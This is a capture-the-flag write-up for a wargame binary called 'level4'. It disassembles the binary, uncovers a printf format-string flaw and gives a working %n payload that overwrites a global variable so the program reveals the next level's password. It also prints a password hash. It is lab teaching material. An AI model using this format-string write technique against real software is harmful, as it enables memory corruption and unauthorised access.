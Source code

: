 Execute the *level4* binary:

```bash
./level4
abcd
```

```
abcd
```

> Note the *level4* binary read user input from stdin like the *level3*, *level2* and *level1*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```

Check the *n* function called from the main:

```gdb
disass n
```

```
Dump of assembler code for function n:
...
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>        ; get the user input
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>                ; call the p function
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544                ; compare the "m" global variable to 16930116
   0x08048497 <+64>:	jne    0x80484a5 <n+78>

   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>       ; execute "/bin/cat /home/user/level5/.pass"
...
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```

The *n* function is exactly like the *v* function of the previous binary level *level3* but with some differences:

- The *system* function give us directly the flag instead of open a shell.
- The *p* function is called instead of *printf*.
- The global variable *m* have has a different address: __0x8049810__.
- The global variable *m* is compared to __16930116__ to access to the *system* call instead of __64__.

Check the *p* function called from the main:

```gdb
disass p
```

```
Dump of assembler code for function p:
...
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
...
End of assembler dump.
```

The *p* function does nothing but call the *printf* function.

Like the previous level, the goal is to reach the system call.

For reach this instruction, the comparaison of the global variable *m* with the value __16930116__ need to be equal.

```gdb
x 0x8049810
```

```
0x8049810 <m>:	0x00000000
```

But use the precedent exploit with a padding of 16930112 characters/bytes (16930116 - 4) is not possible because the *fgets* allows a maximum string length of 512 characters/bytes.

Fortunately, it's possible to ask to *printf* to print for us these padding bytes using the padding feature (*%\<padding\>\<any format specifier\>*) on the *%d* format specifier for example.

Like the previous level, find the argument position of printf pointing on the first bytes of the input string buffer:

```bash
echo "AAAABBBBCCCC %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p" | ./level4
```

```
AAAABBBBCCCC 0xb7ff26b0 0xbffff684 0xb7fd0ff4 (nil) (nil) 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x42424242 0x43434343 0x20702520
```

> The twelfth parameter of the *printf* is the first character of the user input buffer (because AAAA = 0x41414141, BBBB = 0x42424242 ...)

To write in the the global variable *m*:

- Put the address of the global variable *m* at the beginning of the user input (reversed because the stack is readed in the opposite way = \x10\x98\x04\x08) for the *fgets* call.
- Add 16930112 (16930116 minus the global variable *m* address) padding characters/bytes using the *%d* format specifier.
- Add the *%n* special format specifier to put the value 16930116 (the four bytes of the global variable *m* plus the 16930112 paddings bytes).
- Use the *%4$...* permutation option on the *%n* special format specifier for write its value (16930116) in the twelfth parameter of printf which is the start of the user input buffer (starting by the address of the global variable *m* thanks to the step one).

```bash
echo -e "\x10\x98\x04\x08%16930112d%12\$n" | ./level4
```

```
...
                                                -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```